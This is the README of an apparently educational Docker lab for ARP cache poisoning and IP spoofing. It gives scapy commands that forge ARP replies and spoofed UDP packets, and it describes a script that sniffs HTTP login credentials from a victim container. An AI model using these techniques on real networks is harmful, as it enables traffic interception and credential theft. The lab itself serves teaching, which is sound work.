 # DockerARP-test

# ARP Cache Poisoning & IP Spoofing Lab

This repository contains a minimal lab setup for demoing ARP cache poisoning and IP spoofing.

- [Wikipedia: ARP Spoofing](https://en.wikipedia.org/wiki/ARP_spoofing)
- [Wikipedia: IP Spoofing](https://en.wikipedia.org/wiki/IP_address_spoofing)

> The code contained in this repository is intentionally INSECURE and must NOT be used in production!

## Setup

- Install `docker` and `docker-compose`
- Clone this repo
- Run `docker-compose build` to build the images

You get three images for

- `victim`
- `attacker`
- `udpserv`
  that are used by the containers described in the next section.

After the images are built, run the containers via the command:

```bash
$ docker-compose up -d
[+] Running 0/4
 ⠋ Container alice    Creating
 ⠋ Container evie     Creating
 ⠋ Container bob      Creating
 ⠋ Container udpserv  Creating
 ...
```

> For accessing the containers, refer to the section at the end of this document.

If you need to explicitly rebuild the images use `docker-compose up -d --build`.

## Configuration

There are three containers based on two images

| Name      | IP address  | MAC address       | Role            | Service         |
| --------- | ----------- | ----------------- | --------------- | --------------- |
| `alice`   | 10.10.0.101 | 00:00:00:00:00:01 | Victim          | 80/tcp (http)   |
| `bob`     | 10.10.0.102 | 00:00:00:00:00:02 | Victim          | 80/tcp (http)   |
| `evie`    | 10.10.0.103 | 00:00:00:00:00:03 | Attacker        | -               |
| `udpserv` | 10.10.0.104 | 00:00:00:00:00:04 | UDP Echo Server | 9999/udp (echo) |
## Manual ARP Cache Poisoning

Tell `alice` that the ip address of `bob` resides at `evie's` mac address.

```python
$ scapy
...
>>> a = ARP()                      # create an ARP packet
>>> a.show()                       # have a look at the ARP packet
>>> a.op = 'is-at'                 # Unsolicited ARP
>>> a.pdst = '10.10.0.101'         # L3-Dst: Alice
>>> a.psrc = '10.10.0.102'         # L3-Src: Bob
>>> a.hwdst = '00:00:00:00:00:01'  # L2-Dst: Alice
>>> a.hwsrc = '00:00:00:00:00:03'  # L2-Src: Evie
>>> a.show()                       # check the values again
>>> send(a)                        # send the Packet (on L3, for convenience)
>>> ...
```

During the attack, monitor the system's ARP cache for changes via

```bash
$ watch -d -n1 "ip neigh show"
Every 1.0s: ip neigh show

10.10.0.102 dev eth0 lladdr 00:00:00:00:00:02 REACHABLE
...
```

If the attack was successful you should be able to see the MAC address of `bob's` ip changing to `evie's` MAC address.

> `watch` executes the command `ip neigh show` (show ARP cache) every second (`-n1`) and highlights changes (`-d`).

> Sometimes the ARP cache does not get overwritten immediately - so try another time if there is no success.
## Automatic ARP Cache Poisoning

> Notes for `spoofing.py`:
>
> - Reports captured HTTP data twice (incoming and outgoing - needs filtering)
> - Sometimes packets are not captured

To start the automatic ARP cache poisoning, run on `evie`:

```bash
$ python3 spoofing.py
... # wait for output
```

and let a client do an HTTP request (on `alice`):

```bash
# HTTP GET
$ curl "http://bob/login?user=myuser&pass=mysecret"
...
# HTTP POST
$ curl "http://bob/login" --data "user=myuser&pass=mysecret"
...
```
## Manual IP Spoofing

For the IP spoofing we use a echo server that just returns the request-data 10 times to the address contained in the IP-packet's `source` field.

> To check if the UDP Echo server is running you can `nc -u 10.10.0.104 9999` from any other machine in this lab setup and send some arbitrary data. You should receive 10-times your request.

On the attacker (`evie`) create a packet that is addressed to the echo server and contains e.g. `alice's` IP address in the `src`-field.

```python
$ scapy
...
# Create a IP/UDP/Data-Packet and send it via L3 to the Server
>>> send(IP(dst='10.10.0.104', src='10.10.0.101')/UDP(dport=9999)/Raw(load="abc"))
...
```

Monitor the incoming UDP data on `alice` using:

```bash
$ tcpdump -i eth0 -X udp
...
15:21:59.013318 IP udpserv.arplab_lab-net.9999 > alice.53: 24930 updateM+ [b2&3=0x6361] [24930a] [25187q] [25441n] [25187au] [|domain]
	0x0000:  4500 003a 6ed3 4000 4011 b6ff 0a0a 0068  E..:n.@.@......h
	0x0010:  0a0a 0065 270f 0035 0026 1518 6162 6361  ...e'..5.&..abca
	0x0020:  6263 6162 6361 6263 6162 6361 6263 6162  bcabcabcabcabcab
	0x0030:  6361 6263 6162 6361 6263                 cabcabcabc
...
```

## Common docker commands

### Control containers

```bash
# Bring containers up
$ docker-compose up -d
# Show logs of all containers
$ docker-compose logs -f
# Bring all containers down
$ docker-compose down
...
```

### List running containers

```bash
$ docker ps
CONTAINER ID   IMAGE          COMMAND               CREATED         STATUS         PORTS     NAMES
<id>           victim:1.0     "python3 app.py"      4 seconds ago   Up 2 seconds             alice
<id>           udpserv:1.0    "python3 server.py"   4 seconds ago   Up 2 seconds             udpserv
<id>           victim:1.0     "python3 app.py"      4 seconds ago   Up 2 seconds             bob
<id>           attacker:1.0   "/bin/sh"             4 seconds ago   Up 2 seconds             evie
```

### Accessing a containers shell

Start a shell in one of the containers (by name of the container):

```bash
$ docker exec -it evie /bin/bash
root@evie:/#
```

## License

The work in this repository may be reused under the terms of [(CC BY-SA 4.0)](https://creativecommons.org/licenses/by-sa/4.0/).
